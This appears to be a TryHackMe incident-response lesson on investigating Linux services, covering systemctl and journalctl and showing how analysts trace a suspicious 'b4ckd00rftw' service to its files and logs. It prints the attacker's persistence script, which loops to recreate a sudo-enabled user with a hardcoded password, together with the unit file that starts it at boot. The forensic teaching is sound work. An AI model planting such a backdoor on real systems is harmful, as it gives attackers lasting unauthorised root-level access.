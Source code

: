 In Linux, services refer to various background processes or daemons that run continuously, performing tasks such as managing system resources, providing network services, or handling user requests. For example, the cron daemon we analysed previously ran the cronjobs. Other common services include SSH (sshd) for secure shell or the Apache HTTP Server (httpd). Typically, services are configured using the system's service management utility - **systemd** or **init**. Some environments like BusyBox, however, do not use systemd.

Services can be a target for attackers if they can exploit vulnerabilities, abuse misconfigurations, or manipulate legitimate services to establish persistence or escalate privileges on the system. For example, attackers might create new malicious services or modify existing ones to inject or execute malicious commands during system startup or ad-hoc if they can start and stop the service.

As such, incident responders need to have a pre-established baseline to detect anomalies and locate artefacts related to service abuse.

Enumerating Services

`systemctl` is a utility in Linux used for controlling **systemd** and service managers. As mentioned earlier, systemd is a service management utility in Unix-based systems and, for the most part, has replaced the traditional init system in many distributions. As such, systemd is responsible for managing the startup processes, services, and daemons on a Linux system, and `systemctl` lets us manage these services directly.

We can perform a number of actions using `systemctl`, including:

|   |   |
|---|---|
|`systemctl start <service>`|Starts the specified service.|
|`systemctl stop <service>`|Stops the specified service.|
|`systemctl restart <service>`|Restarts the specified service.|
|`systemctl enable <service>`|Enables the specified service to start automatically at boot.|
|`systemctl disable <service>`|Disables the specified service from starting automatically at boot.|
|`systemctl status <service>`|Displays the status of the specified service (e.g., Active, Inactive, Failed).|

We can also use `systemctl` to iterate and query all the services on the system using the following syntax:

Listing All System Services

```shell-session
investigator@tryhackme:~$ sudo systemctl list-units --all --type=service
```

This will produce a lot of paginated output. You can exit this window by pressing the `q` key or avoid pagination by including the `--no-pager` argument.

Alternatively, we can limit the output to just currently running services with the following command:

Listing Running Services

```shell-session
investigator@tryhackme:~$ sudo systemctl list-units --type=service --state=running
  UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                                                   
  accounts-daemon.service                        loaded active running Accounts Service                                              
  acpid.service                                  loaded active running ACPI event daemon                                                                                     
  atd.service                                    loaded active running Deferred execution scheduler                                  
  b4ckd00rftw.service                            loaded active running                                
  cron.service                                   loaded active running Regular background
  ...
```

For the most part, the services returned are seemingly benign. However, we can't be sure as we only see the service name and descriptions based on their unit files. However, at this stage, we are looking for additional services that appear out of place or deviate from the standard baseline. The above output shows an interesting service with the name `b4ckd00rftw.service`, which warrants further investigation.

Investigating Service Processes and Binaries

Now that we have identified a suspicious service, we can use `systemctl` to query the service's status, metadata, and other configurations to understand better what the service is doing.

To query the service's status, we can use the following command:

Viewing the Backdoor Service

```shell-session
investigator@tryhackme:~$ sudo systemctl status b4ckd00rftw.service
b4ckd00rftw.service - Backdoor Service
     Loaded: loaded (/etc/systemd/system/b4ckd00rftw.service; enabled; vendor preset: enabled)
     Active: active (running) since Wed 2024-03-13 18:38:06 UTC; 1h 20min ago
   Main PID: 596 (b4ckd00rftw.sh)
      Tasks: 2 (limit: 1126)
     Memory: 6.4M
     CGroup: /system.slice/b4ckd00rftw.service
             ├─ 596 /bin/bash /usr/local/bin/b4ckd00rftw.sh
             ├─4067 sleep 60
```

In the above output, we gain a lot of details about the **b4ckd00rftw** service. Notably, we can see that it is in the **Active** and **Running** state, as well as the timestamp for when the service started previously.

The command has also returned the **Main PID** value, which identifies the main process of this service and its associated executable (**b4ckd00rftw.sh**). Moving further, we gain valuable information with the **CGroup** (Control Group) field, which returns two processes spawned from this service.

The first process reveals the absolute path of the service executable script (`/usr/local/bin/b4ckd00rftw.sh`), and the second process reveals that it continually runs every 60 seconds (`sleep 60`).

Now that we know the binary that is executed when this service starts, we can perform further investigation on the script's contents:

Viewing the Executable Associated with the Backdoor Service

```shell-session
investigator@tryhackme:~$ cat /usr/local/bin/b4ckd00rftw.sh
#!/bin/bash

while true; do
    sudo useradd -m -p $(openssl passwd -1 Password123!) b4ckd00rftw
    sudo usermod -aG sudo b4ckd00rftw
    sleep 60
done
```

By dissecting the commands within this script, we can determine that it creates a new user with sudo privileges named **b4ckd00rftw** and then sleeps for 60 seconds before repeating the process indefinitely.

Judging by the contents of this script, it is clear that this is another persistence mechanism that the attacker who compromised this system configured to maintain unauthorised access to the system even if initial response actions (like removing the backdoor user) are performed. This type of persistence is why it's important to perform thorough analysis and restore systems from a known-good backup instead of attempting to remediate on a live system, which may not fully address the extent of the compromise.

Inspecting Service Configuration Files

Service configuration files, often called unit files in systemd-based Linux distributions, are important for managing and defining services. These files provide systemd with the necessary information to control how a service behaves, including its startup behavior, dependencies, environment variables, and more. In the previous section, we used the `systemctl status` command to list this configuration data for the backdoor service. By querying the status of a service, the system reads from the unit file to collect this information.

We can read the unit file directly if we know its location, typically in the `/etc/systemd/system/` directory. However, when we queried the status of the service directly, we were given the absolute path of the unit file: `/etc/systemd/system/b4ckd00rftw.service`. We can read the file with the following command:

Viewing the Backdoor Service Unit File

```shell-session
investigator@tryhackme:~$ cat /etc/systemd/system/b4ckd00rftw.service
[Unit]
Description=Backdoor Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/b4ckd00rftw.sh
Restart=always

[Install]
WantedBy=multi-user.target
```

As seen above, we received similar information to what we received by querying the service's status. Notably, the `ExecStart` value gives us the absolute path of the script or binary executed when the service starts.

Inspecting Service Logs

Service log files contain valuable information about the activities, status, and errors generated by services on the system. These logs can be valuable for analysts when investigating services during an incident. The easiest way to query and view service logs from the systemd journal (the systemd logging service) is through the `journalctl` command.

To view the logs of a specific service (i.e., the backdoor service) in real time, we can run the following command:

Viewing the Backdoor Service Logs

```shell-session
investigator@tryhackme:~$ sudo journalctl -f -u b4ckd00rftw.service
-- Logs begin at Sun 2022-02-27 13:52:14 UTC. --

Mar 13 20:03:33 tryhackme sudo[4177]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/useradd -m -p $1$wBUkwyjH$cTZA1K8hQqW6Spxf/en/I/ b4ckd00rftw
Mar 13 20:03:33 tryhackme sudo[4177]: pam_unix(sudo:session): session opened for user root by (uid=0)
Mar 13 20:03:33 tryhackme b4ckd00rftw.sh[4178]: useradd: user 'b4ckd00rftw' already exists
Mar 13 20:03:33 tryhackme useradd[4178]: failed adding user 'b4ckd00rftw', data deleted
Mar 13 20:03:33 tryhackme sudo[4177]: pam_unix(sudo:session): session closed for user root
Mar 13 20:03:33 tryhackme sudo[4179]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/usermod -aG sudo b4ckd00rftw
Mar 13 20:03:33 tryhackme sudo[4179]: pam_unix(sudo:session): session opened for user root by (uid=0)
Mar 13 20:03:33 tryhackme sudo[4179]: pam_unix(sudo:session): session closed for user root
Mar 13 20:03:33 tryhackme b4ckd00rftw.sh[596]: THM{********************************}
```

To exit from this output, you can press `Ctrl` + `C`.

In the above output, we continuously monitor and display new log entries related to the **b4ckd00rftw.service** unit in real time. As seen in the output, we receive some details on the various actions performed by the service, such as the **useradd** command, which is part of the service binary we investigated earlier, along with correlated timestamps.

Note that if you do not want to follow the logs in real time, you can omit the `-f` argument.

Inspecting a service's logs quickly can be useful for troubleshooting. When responding to incidents, service logs can be extremely helpful in identifying unexpected behaviour or malicious executions in real time.